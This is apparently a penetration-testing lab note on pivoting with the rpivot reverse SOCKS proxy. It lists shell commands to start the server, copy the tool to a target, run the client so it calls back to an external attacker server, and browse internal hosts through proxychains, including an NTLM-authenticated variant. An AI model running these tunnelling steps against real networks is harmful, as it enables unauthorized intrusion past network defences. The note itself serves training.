 - [Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. 
- Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.
![[Pasted image 20240801052005.png]]
#### Cloning rpivot
```shell
sudo git clone https://github.com/klsecservices/rpivot.git
cd rpivot
```
#### server.py
```shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
#### Transfering rpivot to the Target
```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### client.py
```shell
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
#### Confirming Connection is Established
```shell
New connection from host 10.129.202.64, source port 35226
```
#### Browsing to the Target Webserver using Proxychains
```shell
proxychains firefox-esr 172.16.5.135:80
```
#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```shell
python3 client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
